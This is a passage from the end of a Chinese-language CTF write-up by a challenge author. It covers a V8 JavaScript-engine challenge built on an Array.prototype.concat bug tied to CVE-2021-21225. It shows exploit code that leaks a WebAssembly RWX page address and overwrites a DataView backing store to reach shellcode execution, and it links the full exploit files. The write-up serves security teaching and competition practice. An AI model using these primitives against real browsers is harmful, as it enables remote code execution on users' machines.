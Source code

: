 因此有如下构造：

```js
var shared_info_addr = readAddr(f_addr + 0x18n);
var wasm_exported_func_data_addr = readAddr(shared_info_addr + 0x8n);
var wasm_instance_addr = readAddr(wasm_exported_func_data_addr + 0x10n);
var rwx_page_addr = readAddr(wasm_instance_addr + 0x80n);
log("leak rwx_page_addr: " + hex(rwx_page_addr));
```

现在已经获得了 RWX 段，shellcode 生成比较常规，直接拿 pwntools 生成就行，可以参考 [src/gen_shellcode.py](src/gen_shellcode.py)。

但是上面使用 FloatArray 进行任意写的时候, 在目标地址高位是 0x7f 等情况下, 会出现低 20 位被置零的现象, 可以通过 DataView 的利用来解决:

```js
var data_buf = new ArrayBuffer(0x200);
var data_view = new DataView(data_buf);
var buf_backing_store_addr = getAddr(data_buf) + 0x20n;

writeAddr(buf_backing_store_addr, rwx_page_addr);
```

---------

至此，调用 `f()` 就可以实现 getshell，完整 exp 见 [src/exp.py](src/exp.py) 和 [src/exploit.js](src/exploit.js)。

#### 后记 & 出题人的碎碎念

> 听说有选手拿其他洞打出来了，膜
>
> 被 patch 版本是去年年初发布的，拿到比赛中确实有点老了，但用这个版本也是希望选手注意到本题漏洞点：`Array.prototype.concat` 函数中的[改动](src/version1819.diff)

出这道题的过程比较曲折，最初确定思路为 V8 pwn 后，盯上了 [CVE-2021-21225](https://bugs.chromium.org/p/chromium/issues/detail?id=1195977)（也可以看一下这个漏洞发现者对这个洞的[分析](https://bugs.chromium.org/p/chromium/issues/detail?id=1195977)）。`Array.prototype.concat` 上的一系列漏洞，去除指针压缩是最开始的想法：对于没有相关经验的选手，指针压缩可能会对理解上造成不必要的困扰，也很高兴有不少选手按照预期思路做出来了，希望大家会喜欢这种偏向 Real world 类型的题目*~~这不比卷 glibc 版本有趣多了？~~*。

其实出题过程中的其他版本会比现在复杂一些，包括：

- 在更大内存的环境下运行（gc 表现会有所不同，调试上有一定工作量，不过不是每个选手都能在大于 8G 内存的环境下运行这道题）

- 禁用 valueOf()，这样选手必须思考结合 js 中的 proxy 来实现漏洞触发与利用，这也是这道题第一个成型的版本，但一直没有找到一种不用堆喷射的解法（使用堆喷射之类繁琐的方法显然违背了 hackergame 对新人友好的初衷）

感谢 [zzh1996](https://github.com/zzh1996) 对本题的反复测试并帮助解决非预期解等问题，感谢 [taoky](https://github.com/taoky) 和 [volltin](https://github.com/volltin) 帮助此题解决大型附件的问题，也正是有以上几位前辈的帮助这道题才有机会和大家见面。
